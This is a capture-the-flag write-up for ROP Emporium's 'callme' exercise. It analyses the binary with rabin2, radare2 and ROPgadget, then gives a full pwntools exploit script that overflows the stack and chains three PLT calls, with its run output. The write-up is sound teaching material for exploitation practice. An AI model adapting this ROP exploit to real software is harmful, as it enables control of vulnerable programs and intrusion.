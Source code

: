 # callme

Reliably make consecutive calls to imported functions. Use some new techniques and learn about the Procedure Linkage Table.

How do you make consecutive calls to a function from your ROP chain that won't crash afterwards? If you keep using the call instructions already present in the binary your chains will eventually fail, especially when exploiting 32 bit binaries. Consider why this might be the case.

The Procedure Linkage Table (PLT) is used to resolve function addresses in imported libraries at runtime, it's worth reading up about it.

## Checking The Binary

```
root@offsec:~/shared# rabin2 -I callme
arch     x86
baddr    0x400000
binsz    11375
bintype  elf
bits     64
canary   false
sanitiz  false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    ./
static   false
stripped false
subsys   linux
va       true
```

## Reverse Engineering

You must call *callme_one()*, *callme_two()* and *callme_three()* in that order, each with the arguments 1,2,3 e.g. *callme_one(1,2,3)* to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments. Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and the encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order.

```
root@offsec:~/shared# ls
callme  encrypted_flag.txt  key1.dat  key2.dat  libcallme.so
root@offsec:~/shared# ls -la
total 44
drwxr-xr-x 7 root root   224 Mar 19 10:58 .
drwx------ 1 root root  4096 Mar 19 11:34 ..
-rwxr-xr-x 1 root root 13360 Aug 28  2017 callme
-rw-r--r-- 1 root root    34 Aug 19  2017 encrypted_flag.txt
-rw-r--r-- 1 root root    16 Aug 19  2017 key1.dat
-rw-r--r-- 1 root root    16 Aug 19  2017 key2.dat
-rwxr-xr-x 1 root root  8584 Aug 28  2017 libcallme.so
root@offsec:~/shared# r2 callme
[0x004018a0]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Enable constraint types analysis for variables
[0x004018a0]> afl
0x004017c0    3 26           sym._init
0x004017f0    1 6            sym.imp.puts
0x00401800    1 6            sym.imp.printf
0x00401810    1 6            sym.imp.callme_three
0x00401820    1 6            sym.imp.memset
0x00401830    1 6            sym.imp.__libc_start_main
0x00401840    1 6            sym.imp.fgets
0x00401850    1 6            sym.imp.callme_one
0x00401860    1 6            sym.imp.setvbuf
0x00401870    1 6            sym.imp.callme_two
0x00401880    1 6            sym.imp.exit
0x00401890    1 6            sub.__gmon_start_401890
0x004018a0    1 41           entry0
0x004018d0    4 50   -> 41   sym.deregister_tm_clones
0x00401910    4 58   -> 55   sym.register_tm_clones
0x00401950    3 28           sym.__do_global_dtors_aux
0x00401970    4 38   -> 35   entry.init0
0x00401996    1 111          sym.main
0x00401a05    1 82           sym.pwnme
0x00401a57    1 74           sym.usefulFunction
0x00401ac0    4 101          sym.__libc_csu_init
0x00401b30    1 2            sym.__libc_csu_fini
0x00401b34    1 9            sym._fini
[0x004018a0]>
```

As you can see tha symbols are intact and that means we can use the pwntools symbols trick and in the exploit use `binary.symbols.callme_one` instead of direct memory addresses, making it a bit more readable.

## Finding Gadget

We need to put these registers in order:

- 0x1 in the RDI register (First parameter)
- 0x2 in the RSI register (Second parameter)
- 0x3 in the RDX register (Third Parameter)

So the first thing is to use ropper to list all the pop gadgets, as the call pop is used to put the address on top of the stack into the destination register.

```
root@offsec:~/shared# ROPgadget --binary callme --only "pop|ret"
Gadgets information
============================================================
0x0000000000401b1c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401b1e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401b20 : pop r14 ; pop r15 ; ret
0x0000000000401b22 : pop r15 ; ret
0x0000000000401b1b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401b1f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401900 : pop rbp ; ret
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
0x0000000000401b23 : pop rdi ; ret
0x0000000000401ab2 : pop rdx ; ret
0x0000000000401b21 : pop rsi ; pop r15 ; ret
0x0000000000401ab1 : pop rsi ; pop rdx ; ret
0x0000000000401b1d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004017d9 : ret

Unique gadgets found: 14
root@offsec:~/shared#
```

Conveniently on the address `0x00401ab0` there is a `pop rdi; pop rsi; pop rdx; ret;`.

## Exploitation

```python3
#!/usr/bin/env python3
from pwn import *

binary =context.binary = ELF('callme')

io = process(binary.path)
print(io.recv())
io.sendline(cyclic(100))
io.wait()

core = io.corefile
stack = core.rsp

info("Stack pointer: %#x", stack)
pattern = core.read(stack, 4)
info("Looking for pattern: %r", pattern)
offset = cyclic_find(pattern)
info("Offset: " + str(offset))

# pop rdi; pop rsi; pop rdx; ret
parameters = p64(0x00401ab0)
parameters += p64(0x1)
parameters += p64(0x2)
parameters += p64(0x3)

rop_chain = parameters + p64(binary.symbols.callme_one)
rop_chain += parameters + p64(binary.symbols.callme_two)
rop_chain += parameters + p64(binary.symbols.callme_three)

info("ROP Chain: " + str(rop_chain))

# overflow structure = padding + rop chain
overflow = cyclic(offset) + rop_chain
process = binary.process()
print(process.recv().decode())
info('Sending payload...')
process.sendline(overflow)
print(process.recvall().decode())
```

```
t0thkr1s@kali ~/D/callme> python3 exploit.py
[*] '/home/t0thkr1s/Downloads/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    b'./'
[+] Starting local process '/home/t0thkr1s/Downloads/callme/callme': pid 6900
b'callme by ROP Emporium'
[*] Process '/home/t0thkr1s/Downloads/callme/callme' stopped with exit code -11 (SIGSEGV) (pid 6900)
[+] Parsing corefile...: Done
[*] '/home/t0thkr1s/Downloads/callme/core.6900'
    Arch:      amd64-64-little
    RIP:       0x401a56
    RSP:       0x7ffc3df78958
    Exe:       '/home/t0thkr1s/Downloads/callme/callme' (0x400000)
    Fault:     0x6161616c6161616b
[*] Stack pointer: 0x7ffc3df78958
[*] Looking for pattern: b'kaaa'
[*] Offset: 40
[*] ROP Chain: b'\xb0\x1a@\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00P\x18@\x00\x00\x00\x00\x00\xb0\x1a@\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00p\x18@\x00\x00\x00\x00\x00\xb0\x1a@\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x10\x18@\x00\x00\x00\x00\x00'
[+] Starting local process '/home/t0thkr1s/Downloads/callme/callme': pid 6903
callme by ROP Emporium
[*] Sending payload...
[+] Receiving all data: Done (77B)
[*] Process '/home/t0thkr1s/Downloads/callme/callme' stopped with exit code 0 (pid 6903)

64bits

Hope you read the instructions...
> ROPE{a_placeholder_32byte_flag!}
```

> ROPE{a_placeholder_32byte_flag!}
